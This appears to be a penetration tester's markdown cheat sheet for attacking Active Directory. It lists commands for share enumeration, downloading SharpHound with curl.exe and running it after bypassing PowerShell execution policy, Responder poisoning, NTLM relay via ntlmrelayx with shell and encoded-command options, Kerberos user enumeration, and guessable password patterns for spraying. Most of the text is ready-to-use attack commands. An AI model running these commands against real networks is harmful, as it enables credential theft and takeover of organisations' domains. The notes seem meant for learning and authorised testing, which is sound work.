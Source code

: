 - Domain Shares
    - `net view \\DC1.corp.com`
    - `ls \\DC1.corp.com\share`
    - powerview: `Find-DomainShare -CheckShareAccess`

- BloodHound: Automated AD enumeration
    - first it is need to collect the data of the AD
        - `curl.exe -LO https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Collectors/SharpHound.ps1`
        - `powershell -ep bypass`
        - `Import-Module .\Sharphound.ps1`
        - `Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\complete\path -OutputPrefix "corp"`
    - then, we can start bloodhound and import the zip to it
    - `MATCH p = (c:Computer)-[:HasSession]->(u:User) RETURN p`
    - `MATCH (c:Computer) RETURN c`
    - find all domain admins
    - find shortest paths to domain admins
        - mark objects as owned to filter

#### AD Attacks

##### poison (responder)
```sh
sudo responder -I eth0 -v # default mode, can denial very old services
-A # analyse mode, not poisoning, no dos
-b # basic http authentication
-wdF # ?wpad combo
-Pd  # ?
-D   # ?DHCP
--disable-ess 
```

##### poison + ntlm relay
- impacket-ntlmrelayx
    * -smb2support
    * -t TARGET
    * -tf TARGETSFILE          # multiple targets
    * -of HASHFILE             # save NTLM response in a file (it automatically add the suffix _ntlm)
    * -i                       # open smb shell locally, good if the user doesn't have admin permission, TODO: consider change by -socks option
    * -c "powershell -enc ..." # command execution

##### user enumeration via kerberos
* it does not lock out the accounts
* `ldapnomnom -server $dcIp -input names.txt --parallel 64`
* `kerbrute userenum -d corp.com --dc $kdcIp usernames.txt`
* `nmap -p 88 --script krb5-enum-users --script-args krb5-enum-users.realm='corp.com',userdb=/root/user.txt $kdcIp`

###### choosing password
- default AD policy: Upper && Lower && numbers && 7 characters 
    - it can't contain the name of the user
    - Password1, Company123
- brazil common passwords:
    - Company@2023, Company2023
    - Mudar@123, Mudar123
- generate wordlist:
    - bopscrk
